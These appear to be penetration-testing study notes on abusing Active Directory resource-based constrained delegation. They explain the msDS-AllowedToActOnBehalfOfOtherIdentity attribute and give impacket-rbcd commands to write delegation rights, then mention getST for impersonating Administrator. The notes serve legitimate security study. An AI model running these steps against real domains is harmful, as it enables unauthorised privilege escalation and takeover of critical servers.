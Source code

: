 ![[Pasted image 20250723132618.png]]
## What is it?

- Introduced in Windows Server 2012.

- Instead of the service owner configuring which services it can delegate to, **the resource owner controls which accounts can delegate to it.**

- This is done by setting permissions on the resource (target) object itself.

- Allows delegation to services running under accounts that are not in the same domain or forest (cross-domain delegation).
## Abuse Theory

- If an attacker compromises a low-privilege account or computer, they can modify the **“msDS-AllowedToActOnBehalfOfOtherIdentity”** attribute on a target resource (like a domain controller or critical server).

- This attribute grants the compromised account the right to impersonate any user to that resource.

- Effectively, attackers gain control over high-value systems without needing to compromise domain admins directly.

- This technique is sometimes called **“resource-based delegation abuse”** or **“Kerberos delegation attacks via RBCD.”**

## Abuses

### With SPN

**Step 1**: edit the target's "rbcd" attribute ([DACL abuse](https://www.thehacker.recipes/ad/movement/dacl/)) ✏️

[Impacket](https://github.com/SecureAuthCorp/impacket/)'s [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py) script (Python) can be used to read, write or clear the delegation rights, using the credentials of a domain user that has the needed permissions.

```bash
# Read the attribute
impacket-rbcd -delegate-to 'target$' -dc-ip 'DomainController' -action 'read' 'domain'/'PowerfulUser':'Password'

# Append value to the msDS-AllowedToActOnBehalfOfOtherIdentity
impacket-rbcd -delegate-from 'controlledaccount' -delegate-to 'target$' -dc-ip 'DomainController' -action 'write' 'domain'/'PowerfulUser':'Password'
```

**Step 2**: obtain a ticket (delegation operation) 🎫

Once the attribute has been modified, the [Impacket](https://github.com/SecureAuthCorp/impacket) script [getST](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) (Python) can then perform all the necessary steps to obtain the final "impersonating" ST (in this case, "Administrator" is impersonated but it can be any user in the environment).
